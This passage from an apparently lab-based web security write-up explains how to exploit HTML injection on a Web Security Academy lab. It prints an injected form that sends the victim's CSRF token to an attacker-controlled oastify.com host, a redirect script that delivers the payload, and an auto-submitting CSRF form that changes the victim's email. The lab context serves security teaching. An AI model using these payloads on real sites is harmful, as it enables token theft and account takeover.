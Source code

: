 
```
https://LABID.web-security-academy.net/my-account?id=wiener&email=hello
```

Methodology and explanation:

We find that the reflection point is in the URL which can be seen by appending &email=hello. As we can see, hello got populated in the empty field.

![](/assets/images/XSS/Pasted%20image%2020250728023014.png)

We can now try to make a malicious form and a button within this to steal the CSRF token and send it to the target user.

```html
"></form><form class="login-form" name="evil-form" action="https://BURPID.oastify.com/token" method="GET"><button class="button" type="submit">Click Me</button>'
```

![](/assets/images/XSS/Pasted%20image%2020250728023123.png)

We will send this URL to the target user then. remember to remove id=wiener from the URL otherwise it won't work.

```html
<script>
location='https://0aa9000303071ad180c844c3009f0057.web-security-academy.net/my-account?&email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://kf34q7u0443cyc1m3246089wzn5et4ht.oastify.com/token%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3EClick%20Me%3C/button%3E'
</script>
```

As we can see, we get the target's CSRF token.

![](/assets/images/XSS/Pasted%20image%2020250728023723.png)

Next we can generate a CSRF PoC (Burp Pro feature) on the change-email request. 

![](/assets/images/XSS/Pasted%20image%2020250728023952.png)

We will copy this PoC.

![](/assets/images/XSS/Pasted%20image%2020250728024028.png)

We just need to replace the CSRF token and the value of the email field and send it to the target via the exploit server.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://LABID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil-user&#46;net" />
      <input type="hidden" name="csrf" value="OeyI3k22l5q7AQhX03Ath4sPWICXKQKr" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
### 30. Reflected XSS protected by CSP, with CSP bypass
